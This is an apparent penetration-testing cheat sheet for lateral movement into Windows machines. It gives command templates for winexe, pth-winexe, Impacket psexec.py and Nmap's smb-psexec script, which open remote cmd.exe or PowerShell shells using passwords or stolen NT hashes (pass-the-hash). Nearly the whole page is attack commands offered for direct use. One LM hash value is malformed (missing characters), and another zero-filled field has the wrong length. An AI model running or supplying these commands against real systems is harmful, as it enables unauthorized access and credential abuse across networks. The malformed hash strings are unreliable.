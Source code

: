 # Unix Shell

Search Tag(s): #lateral-movement #psexec #impacket #windows

## 01 - Samba Suite Utils

```
$ winexe -U <domain>/<username>%<password> //<IP> <cmd.exe | powershell.exe>
```

Pass the Hash

```
$ pth-winexe -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> <cmd.exe | powershell.exe>
```

## 02 - Impacket

```
$ psexec.py [<domain>/]<username>:<password>@<IP> [-codecs <codec>]
```

- Pass the Hash

```
$ psexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ psexec.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

## 03 - Nmap

```
$ nmap -p 445 -Pn --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>' <IP>/<CIDR>

$ sudo nmap -p U:137,T:139 -Pn -sUS --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>'
```
